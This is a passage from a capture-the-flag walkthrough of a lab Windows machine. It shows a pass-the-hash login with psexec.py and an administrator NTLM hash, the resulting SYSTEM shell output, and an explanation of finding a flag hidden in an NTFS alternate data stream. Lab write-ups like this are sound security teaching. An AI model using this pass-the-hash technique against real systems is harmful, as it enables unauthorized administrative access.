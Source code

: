 ![](/assets/img/jeeves/Walkthrough-administrator-hash.png)

Tested password hash with the administrator account via Psexec.py to establish shell:

```
└─$ psexec.py administrator@10.10.10.63 -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 10.10.10.63.....
[*] Found writable share ADMIN$
[*] Uploading file edbkoTlL.exe
[*] Opening SVCManager on 10.10.10.63.....
[*] Creating service Jcer on 10.10.10.63.....
[*] Starting service Jcer.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

Taking a look at the administrator's desktop, we are not presented with the typical root.txt flag, but instead, there is a file called hm.txt. The contents of the file read "The flag is elsewhere. Look deeper."

Look deeper? The root flag is always located in the desktop folder. Is it possible that the file is there, just hidden?

Executing dir /a:h does not show any additional files. There is another technique to "hide" files in plain sight. That technique involves using Alternate Data Streams (ADS).

Alternate Data Streams (ADS) are a feature of the NTFS file system in Windows that allow files to contain more than one stream of data and were originally introduced for compatibility with Mac Hierarchical File System (HFS). You can essentially hide a file within the alternate data stream of another file. The file written to the alternate data stream is typically not visible in standard file listings such as the "dir" command.

How do we tell if an alternate data stream has been written? We can use "dir /r" command to show any alternate data streams (ADS) that are part of a file.

As shown below, the root flag was hidden in alternate data stream inside of hm.txt:

